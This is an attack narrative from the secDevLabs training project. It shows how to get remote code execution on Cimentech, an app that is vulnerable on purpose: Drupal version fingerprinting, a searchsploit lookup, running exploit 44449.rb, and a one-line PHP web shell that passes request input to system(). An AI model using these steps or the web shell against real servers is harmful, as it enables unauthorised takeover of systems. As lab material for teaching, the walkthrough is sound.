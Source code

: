 # Attack Narrative - Cimentech
The main goal of this document is to describe how a malicious user could exploit a vulnerability, intentionally installed on Cimentech from secDevLabs, to obtain a remote code execution.

If you don't know [secDevLabs] or this [intended vulnerable web application][2] yet, you should check them before reading this narrative.

---
## 👀

It's possible to reach the server's web application from the standard HTTP port 80, as shown by the image below:

<img src="attack1.png" align="center"/>

Afterwards, by having a look at the `/robots.txt` file, it's possible to find the `CHANGELOG.txt` file in the `Disallow` field, as depicted by the image below:

<img src="attack2.png" align="center"/>

When accessed, an indication of the version of the Content Management System (Drupal) can be found, as show below:

<img src="attack3.png" align="center"/>

Having the CMS version, it's possible to check on [exploit-db][3] if there are any exploits associated to that version, in this case, Drupal 7.57. The results of the search are depicted on the image below:

<img src="attack4.png" align="center"/>

By using [searchsploit](https://www.exploit-db.com/searchsploit) tool, an attacker could also find this same result via terminal. To install it, simply type the following in your OSX terminal:

```sh
brew install exploitdb
```

Then simply search for the version of the CMS found:

```sh
searchsploit drupal 7.
```

If you are using OSX, this command would help you make a copy of the exploit to your /tmp folder:

```
cp /usr/local/opt/exploitdb/share/exploit-database/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Running the malicious Ruby code, we have evidence that a remote code execution is possible on the web server, using the following commands as shown below:

```sh
ruby /tmp/44449.rb http://localhost
```

<img src="attack5.png" align="center"/>

The exploit works by adding into the server a malicious `s.php` wich allows remote code execution on it via following malicious content: 

```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Using the exploit's "fake shell", we can type a command just like `whoami` to verify that we indeed have a RCE on the server, as shown by the image:

<img src="attack6.png" align="center"/>



[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a9/Cimentech
[3]: https://www.exploit-db.com/
